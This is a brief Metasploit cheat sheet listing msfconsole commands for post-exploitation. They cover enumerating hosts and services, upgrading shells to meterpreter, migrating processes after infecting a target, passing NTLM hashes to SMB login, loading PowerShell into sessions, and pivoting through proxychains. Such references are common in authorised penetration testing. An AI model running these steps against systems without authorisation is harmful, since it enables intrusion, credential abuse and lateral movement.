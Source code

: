 ### Source
https://github.com/rapid7/metasploit-framework  

### Execute before start of msfconsole
```
msf> systemctl start postgresql
```

### Initiate db
```
msf> msfdb init
```

### Check status
```
msf> db_status
```

### List windows 2008 server
```
msf> hosts -u -S 2008
```

### Show services of specific host
```
msf> services <rhost>
```

### Set rhosts for specific open port
```
msf> services -R -u -p <rport>
```

### Execute command on all sessions
```
msf> sessions -c ipconfig
```

### Upgrade a shell session
```
msf> use post/multi/manage/shell_to_meterpreter
```

### Shortcut for choosing correct handler inside the context of payload module
```
msf> to_handler
```

### Automigrate to another process, directly after infecting target
```
msf> set AutoRunScript post/windows/manage/migrate
```

### Smb_login with ntlm hash
```
ms> set smbpass <nthash:nthash>
```

### Load powershell script into current meterpreter session
```
mtr> powershell_import <localFile>.ps1
```

### Tunnel traffic trough proxy
```
msf> set PROXIES HTTP:127.0.0.1:8080
```

### Pivoting using proxychains
```
msf> auxiliary/server/socks_proxy
msf> set version 4a
msf> route add <ipRange> <sessionId>
msf> run -j
```

### Adjust listening port in vim /etc/proxychains4.con
```
socks4  127.0.0.1 1080
```


